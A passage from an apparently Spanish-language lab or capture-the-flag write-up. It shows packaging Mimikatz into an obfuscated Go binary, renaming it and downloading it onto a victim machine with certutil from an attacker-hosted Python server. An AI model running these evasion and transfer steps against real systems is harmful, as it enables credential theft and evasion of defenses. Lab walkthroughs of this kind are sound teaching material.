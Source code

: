 Esto habrá creado un script en `go` con el cual crearemos un compilado final

Creando binario final

```bash
./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe
```

![Untitled](/assets/img/Blue/Untitled35.png)

Obteniendo:

![Untitled](/assets/img/Blue/Untitled36.png)

Renombrando el archivo a `tensada.exe`
En nuestra máquina atacante levantamos un servidor con Python para trasnferir el binario

Transfiriendo el archivo a la máquina víctima a través de `certutil.exe`

```bash
certutil.exe -f -urlcache -split http://10.10.14.13/tensada.exe
```

![Untitled](/assets/img/Blue/Untitled37.png)
